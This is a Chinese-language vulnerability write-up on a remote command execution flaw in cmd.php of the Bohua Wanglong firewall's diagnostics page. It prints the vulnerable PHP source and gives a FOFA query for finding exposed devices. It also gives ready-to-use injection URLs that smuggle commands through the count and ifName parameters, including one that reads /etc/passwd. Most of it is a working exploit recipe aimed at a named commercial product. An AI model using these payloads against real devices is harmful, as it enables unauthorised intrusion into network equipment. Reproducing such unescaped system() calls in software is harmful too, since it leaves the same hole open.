 # 博华网龙防火墙 cmd.php 远程命令执行漏洞

## 漏洞描述

博华网龙防火墙 cmd.php 过滤不足，导致命令拼接执行远程命令

## 漏洞影响

```
博华网龙防火墙
```

## FOFA

```
"博华网龙防火墙"
```

## 漏洞复现

登录页面

![img](./images/202202162249275.png)

存在漏洞的文件为 **/diagnostics/cmd.php**

```php
<?php
    include_once("pub/pub.inc");
    include_once("pub/session.inc");
    
    $username = $_SESSION["USER_NAME"];
    checkApproachUrl(); 
    
  if($_GET['action'] == "ping")
  {
        $host = $_GET['host'];
        $count = $_GET['count'];
        system("/bin/ping -c $count " . escapeshellarg($host)." >temp.htm");
        
         if($username)
            pSyslog("ping $host $count次", 0);           
  }
  else if($_GET['action'] == "traceroute")
  {
        $host = $_GET['host'];
        $ttl =  $_GET['ttl'];
        $useicmp = $_GET['useicmp'];
        
        if($useicmp)
            $useicmp = "-I";
        else
            $useicmp = "";        
        system("/usr/bin/traceroute -d $useicmp -w 2 -m " . escapeshellarg($ttl) . " " . escapeshellarg($host)." >temp.htm");    
        if($username)
            pSyslog("traceroute $host 跳数为$ttl", 0);     
  }
  else if($_GET['action'] == "arping")
  {
    $host = $_GET['host'];
    $count = $_GET['count'];
    $if = $_GET['ifName'];
    $src = $_GET['src'];
    system("/usr/bin/arping -I $if -c $count -s $src $host >temp.htm");
    
     if($username)
        pSyslog("arping $host $count次", 0);
  }
  else
  {
    system("echo \"\" >temp.htm");
  } 
?>
```

可以发现其中存在多个命令执行点，均可进行命令拼接执行恶意命令

构造命令执行

```php
/diagnostics/cmd.php?action=ping&count=||id||
/diagnostics/cmd.php?action=arping&ifName=|cat /etc/passwd||
```

![img](./images/202202162249153.png)